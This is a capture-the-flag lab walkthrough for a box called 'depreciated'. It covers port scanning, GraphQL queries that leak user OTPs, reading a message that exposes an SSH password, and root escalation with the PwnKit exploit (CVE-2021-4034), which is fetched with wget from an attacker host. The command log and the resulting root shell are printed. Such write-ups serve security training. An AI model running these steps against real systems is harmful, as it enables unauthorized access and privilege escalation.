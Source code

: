 # Network Enumeration

```bash
PORT      STATE    SERVICE                                         
22/tcp    open     ssh                    
80/tcp    open     http              
5132/tcp  open     unknown                          
8433/tcp  open     unknown 

PORT      STATE  SERVICE VERSION                                                                                                                                                                                                            
80/tcp    open   http    nginx 1.18.0 (Ubuntu)
|_http-title: Under Maintainence                                                                                                                                   
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                 
5132/tcp  open   unknown                                                                                                                                             
8433/tcp  open   http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
```

 # Web Enumeration

<img src="../Images/image-20230817171000128.png" alt="image-20230817171000128" style="zoom:80%;" />

Check the source code that said port 8433 with a path graphql path.

Then we can running the listUsers on 8433.

<img src="../Images/image-20230817171351541.png" alt="image-20230817171351541" style="zoom:80%;" />

Try to get the OTP. Cause the port 5132 inneed.

<img src="../Images/image-20230817171507621.png" alt="image-20230817171507621" style="zoom:80%;" />

For peter.

```json
{
  getOTP(username:"peter")
}
```

Response

```json
{
  "data": {
    "getOTP": "Your One Time Password is: vNENpUh1s132OiTv"
  }
}
```

For Jason

```json
{
  getOTP(username:"jason")
}
```

Response

```json
{
  "data": {
    "getOTP": "Your One Time password is: BlZWkCHYN4muxkbv"
  }
}
```

The password need to generate every times. Use `nc` to login.

<img src="../Images/image-20230817171938486.png" alt="image-20230817171938486" style="zoom:80%;" />

Now try to list and read some message.

```bash
$ read 2345
Not authorized to read
$ read 1893
Not authorized to read
$ read 2347
Not authorized to read
$ read 1277
Not authorized to read
$ read 0
Not authorized to read
$ read 234
Message No: #234

Hey, Please change your password ASAP. You know the password policy, using weak password isn't allowed. And peter@safe is very weak, use https://password.kaspersky.com/ to check the strength of the password.

Attachment: none
```

Get peter's password is `peter:peter@safe`, try to login with ssh.

<img src="../Images/image-20230817172145767.png" alt="image-20230817172145767" style="zoom:80%;" />

It's useful.

# PE

## Information Collection

### Basic Information

<img src="../Images/image-20230817172359009.png" alt="image-20230817172359009" style="zoom:80%;" />

### Active Ports

<img src="../Images/image-20230817172446795.png" alt="image-20230817172446795" style="zoom:80%;" />

### Users

<img src="../Images/image-20230817172504495.png" alt="image-20230817172504495" style="zoom:80%;" />

### Useful software

<img src="../Images/image-20230817172524565.png" alt="image-20230817172524565" style="zoom:80%;" />

## Use Pwnkit to PE

```bash
peter@depreciated:~$ wget 192.168.45.166/CVE-2021-4034.tar.gz
--2023-08-17 09:32:59--  http://192.168.45.166/CVE-2021-4034.tar.gz
Connecting to 192.168.45.166:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 41448 (40K) [application/gzip]
Saving to: ‘CVE-2021-4034.tar.gz’

CVE-2021-4034.tar.gz       100%[========================================>]  40.48K  84.6KB/s    in 0.5s    

2023-08-17 09:33:00 (84.6 KB/s) - ‘CVE-2021-4034.tar.gz’ saved [41448/41448]

peter@depreciated:~$ tar -zxvf CVE-2021-4034.tar.gz 
peter@depreciated:~$ ls
CVE-2021-4034  CVE-2021-4034.tar.gz  dirty  dirty.c  linpeas.sh  local.txt  PwnKit.zip  snap
peter@depreciated:~$ cd CVE-2021-4034/
peter@depreciated:~/CVE-2021-4034$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
peter@depreciated:~/CVE-2021-4034$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),1000(peter)
# whoami;cat /root/proof.txt
root
00b5111115f37a32fd51b679c825947f
# 

```

<img src="../Images/image-20230817173410562.png" alt="image-20230817173410562" style="zoom:80%;" />
